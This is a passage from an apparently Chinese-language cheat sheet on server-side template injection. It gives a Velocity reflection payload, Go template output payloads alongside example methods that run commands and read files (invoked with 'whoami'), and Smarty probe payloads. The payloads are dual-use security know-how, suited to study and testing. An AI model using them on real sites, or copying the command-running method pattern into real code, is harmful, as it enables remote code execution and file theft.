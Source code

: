 ```java
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

### Go

- 利用`{{ . }}` 这种形式来返回全部的模板中的内容
- 还可以进行`{{printf "%s"}}`格式的输出
- 还有一些其他可以用于输出的payload： `{{html "ssti"}}`, `{{js "ssti"}}` 实现的也是如上效果，实际上直接`{{"ssti"}}`也可以.

通过模板语法可知可以像`{{ .Name }}`一样调用对象方法，模板内部并不存在可以RCE的函数，所以除非有人为渲染对象定义了RCE或文件读取的方法，不然这个问题是不存在的。

```go
func (u *User) System(cmd string, arg ...string) string {
	out, _ := exec.Command(cmd, arg...).CombinedOutput()
	return string(out)
}

func (u *User) FileRead(File string) string {
	data, err := ioutil.ReadFile(File)
	if err != nil {
		fmt.Print("File read error")
	}
	return string(data)
}
```

如果定义了就可以通过`{{.System "whoami"}}`和`{{.FileRead "filepath"}}`执行

### PHP

#### Smart

Smarty 模板是基于 PHP 开发的模板，我们可以利用 Smarty 实现程序逻辑与页面显示（HTML/CSS）代码分离的功能。模板引擎中花哨的功能导致了模板注入的出现，也就是SSTI。

[官方文档](https://www.smarty.net/about_smarty)

##### POC

`Paylaod => {2*2}`

##### 搜集信息

```php
//返回版本信息
{$smarty.version}
//返回当前模板的文件名
${smarty.template}
```

##### 获取类的静态方法
